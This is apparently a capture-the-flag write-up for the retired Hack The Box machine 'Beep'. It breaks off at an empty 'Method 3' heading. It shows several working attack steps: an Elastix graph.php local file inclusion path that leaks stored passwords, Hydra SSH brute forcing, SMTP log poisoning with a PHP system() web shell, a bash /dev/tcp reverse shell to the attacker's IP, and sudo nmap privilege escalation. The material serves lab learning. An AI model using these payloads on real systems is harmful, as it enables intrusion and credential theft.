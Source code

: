 # Beep

This is the write-up for the box Beep that got retired at the 1st September 2017.
My IP address was 10.10.14.13 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.7    beep.htb
```

This box has many ways to get the flags and I will explain some of them and not only clear this box in one way.

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/beep.nmap 10.10.10.7
```

```markdown
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL LOGIN-DELAY(0) RESP-CODES EXPIRE(NEVER) PIPELINING APOP IMPLEMENTATION(Cyrus POP3 server v2) STLS AUTH-RESP-CODE USER TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed IMAP4rev1 IMAP4 URLAUTHA0001 CATENATE BINARY NAMESPACE QUOTA CHILDREN LIST-SUBSCRIBED IDLE ANNOTATEMORE MAILBOX-REFERRALS NO X-NETSCAPE CONDSTORE SORT UNSELECT ID OK STARTTLS THREAD=REFERENCES ATOMIC ACL SORT=MODSEQ RIGHTS=kxte LISTEXT MULTIAPPEND RENAME LITERAL+ THREAD=ORDEREDSUBJECT UIDPLUS
443/tcp   open  ssl/https?
|_ssl-date: 2019-11-03T16:48:03+00:00; +1h00m01s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

## Method 1

### Checking HTTP / HTTPS (Port 80 and 443)

Browsing to the web page on HTTP we get automatically forwarded to the HTTPS page where we find an **Elastix** login prompt.
Elastix is a PBX appliance which is a unified communications server software and has different collaboration services.

Lets look for hidden paths with **Gobuster**:
```markdown
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
```

The most interesting results are:
- /help (Status: 301)
  - Default documentation of the Elastix appliance
- /mail (Status: 301)
  - Roundcube server
- /admin (Status: 301)
  - Login prompt for FreePBX server version 2.8.1.4
- /recordings (Status: 301)
  - Login prompt for FreePBX server version 2.8.1.4
- /vtigercrm (Status: 301)
  - vtiger CRM 5 software

Looking for vulnerabilities in the software:
```markdown
searchsploit elastix
```

We try the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** to disclose the contents of files from the server. This vulnerability finds some valueable information by browsing to the path:
> **/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action**.

This outputs the FreePBX database configuration file that includes usernames and passwords:
```markdown
AMPDBHOST=localhost
AMPDBENGINE=mysql
#AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
#AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

#FOPRUN=true
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

ARI_ADMIN_USERNAME=admin
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

With a _Local File Inclusion_ we can search for an file on the server like /etc/passwd to see the users on the server. The interesting users on this box are:
- root
- mysql
- cyrus
- asterisk
- spamfilter
- fanis

With these passwords and users we can create lists to see if the credentials work on SSH with **Hydra**:
```markdown
hydra -L users.txt -P passwords.txt ssh://10.10.10.7
```

The server will eventually block us but we can try the passwords manually, too. When done we will see that the _root_ user has the password _jEhdIekWmdjE_ which we can log in with!

## Method 2

### Checking SMTP (Port 25)

We know that there is a LFI vulnerability and now we turn this into RCE instead of looking for passwords.

We connect to the SMTP port with telnet and verify if the _asterisk@localhost_ exists and send him an email with a PHP line with which we can execute system commands:
```markdown
telnet 10.10.10.7 25

EHLO test.local

VRFY asterisk@localhost
252 2.0.0 asterisk@localhost

MAIL FROM:tester@pwn.local
250 2.1.0 Ok

RCPT TO: asterisk@localhost
250 2.1.5 Ok

DATA
354 End data with <CR><LF>.<CR><LF>
Subject: I got you    
<?php echo system($_REQUEST['test']); ?>

.
250 2.0.0 Ok: queued as 1612CD92FD
```

When we use the LFI from before we can browse to the path mails are and input the parameter _test_ with the value `whoami` to see if the code execution works.
```markdown
hxxps://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&test=whoami
```

It outputs the correct output of `whoami`, so code execution works and we can start a reverse shell now.
```markdown
test=bash+-i+>%26+/dev/tcp/10.10.14.13/9001+0>%261
```

Our listener on port 9001 starts a reverse shell on the box with the user _asterisk_.

#### Privilege Escalation

In Elastix a user can run Nmap by default with sudo rights and if we run _Nmap interactive_ we can start bash from there as root:
```markdown
sudo nmap --interactive

# In the nmap shell nmap>
!sh
```

It only shows a blank line but still accepts commands and we can verify that we are root with the `id` command.

## Method 3

### Remote Code Execution



